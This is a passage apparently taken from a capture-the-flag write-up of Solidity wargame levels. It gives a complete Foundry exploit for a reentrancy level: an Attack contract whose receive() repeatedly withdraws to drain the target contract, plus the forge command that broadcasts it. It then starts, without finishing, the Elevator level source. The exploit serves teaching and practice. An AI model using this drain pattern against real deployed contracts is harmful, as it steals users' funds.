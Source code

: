 **Level10Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "../src/Level10.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack{

    Reentrance public r_instance =Reentrance(0x1e5f76396a5b433c9c462c919dAf64Eed6bD4926);

    function exploit() external payable{

        r_instance.donate{value: 0.001 ether}(address(this));
        r_instance.withdraw(0.001 ether);
    }
    receive() external payable{
        if(address(r_instance).balance >= 0.001 ether){
             r_instance.withdraw(0.001 ether);
        }
    }
}

contract Level10Sol is Script{
    function run() external {
            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
            new Attack().exploit{value: 0.001 ether}();
            vm.stopBroadcast();
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level10Solution.s.sol:Level10Sol --rpc-url $RPC_URL --broadcast
```

## Elevator

**Level11.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```
